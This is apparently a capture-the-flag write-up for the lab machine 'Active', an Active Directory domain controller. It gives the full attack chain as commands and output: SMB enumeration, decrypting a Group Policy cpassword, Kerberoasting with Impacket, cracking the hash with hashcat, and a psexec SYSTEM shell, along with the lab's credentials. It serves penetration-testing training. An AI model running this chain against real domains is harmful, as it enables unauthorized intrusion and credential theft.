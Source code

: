 # Active

This is the write-up for the machine called Active.

## Scanning & Enumeration

Let's start with an nmap scan:

```markdown
nmap -T4 -A -p- 10.10.10.100
```

Relevant results of the scan:

```markdown
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-08-16 08:49:20Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

These services are found on an **Active Directory Domain Controller (AD DC)**.

## SMB Exploitation 

The SMB port is open on this Windows Active Directory Domain Controller and it allows us to get the SMB shares by using anonymous authentication:

```markdown
smbclient -L //10.10.10.100
```

The following SMB shares are displayed:

```markdown
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Replication     Disk      
SYSVOL          Disk      Logon server share
Users           Disk
```

**SMBmap** can also enumerate the permissions of the shares without any authentication:

```markdown
smbmap -H 10.10.10.100
```

The following SMB share permission are displayed:

```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             NO ACCESS       Remote IPC
NETLOGON         NO ACCESS       Logon server share
Replication      READ ONLY
SYSVOL           NO ACCESS       Logon server share
Users            NO ACCESS
```

We see that the share **Replication** has a read-only access.

Display the contents of the share recursively by typing:

```markdown
smbmap -H 10.10.10.100 -R Replication
```

There is a file called **Groups.xml** in the directory _"\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\"_, which is a **Group Policy file** where the username and encrypted cPassword are stored.

Navigate to Replication and download **Groups.xml** by typing:

```markdown
smbclient //10.10.10.100/Replication

smb: \> get \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

**Groups.xml** contains the following information:

```markdown
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

The username we find is **active.htb\SVC_TGS** (which is a ticket granting service) and the cPassword is encrypted, but we can decrypt it with **gpp-decrypt**:

```markdown
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

The decrypted password is ```GPPstillStandingStrong2k18```.

Read more about GPP and GPP attacks on [rapid7's blog post](https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/).

## Privilege Escalation using Kerberoasting

Install [Impacket](https://github.com/SecureAuthCorp/impacket) as we will use scripts from it that will help us gain root access to this machine.

Clone or download it into the directory of your choice and enter ```pip install .``` in that directory to install Impacket onto your machine.

Run ```pip3 install .``` if the aforementioned does not work.

Run the following command on your machine to start a **Kerberoasting attack**:

```markdown
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

The ticket hash for the **Administrator** is the output:

```markdown
$krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445\*$98484(...)
```

Let's crack this with **Hashcat**:

```markdown
hashcat -m 13100 active.hash /usr/share/wordlists/rockyou.txt
```
**Disclaimer : Do not crack hashes on your VM as it will be very slow since VMs use CPUs. Copy the hash and crack it on your host OS machine since it will use GPUs and that will be much faster.**

The hash gets cracked and the password for the **Administrator** is revealed to be ```Ticketmaster1968```.

Run the following command using **psexec.py** to gain a root shell on the machine: 

```markdown
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

We are now **NT Authority\SYSTEM** on the machine.
